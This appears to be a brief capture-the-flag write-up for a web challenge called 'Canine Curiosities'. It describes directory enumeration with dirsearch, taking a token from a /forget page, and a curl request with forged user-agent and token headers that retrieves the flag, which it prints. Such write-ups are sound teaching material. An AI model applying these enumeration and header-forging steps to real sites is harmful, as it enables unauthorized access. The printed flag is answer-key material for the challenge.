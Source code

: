 # Canine Curiosities
- Used dirsearch on url: https://canine-curiosities.vercel.app to find [url/app.js](https://canine-curiosities.vercel.app/app.js)  .

- Found token from [url/forget](https://canine-curiosities.vercel.app/forget) and then uses 'cux' as username to retrieve flag from [url/fact](https://canine-curiosities.vercel.app/fact)

- Used the following command in terminal :
    ```
  $ curl -H "user-agent:cux" -H "token:fec62644-6db3-11ee-a34a-505bc2eeff4f" https://canine-curiosities.vercel.app/fact
    ```
- Got the following result:
    ```
    {"fact":"cruXipher{m0n15h4_f0R_pR0m_qV33n}"}
    ```

## Flag
```
cruXipher{m0n15h4_f0R_pR0m_qV33n}
```
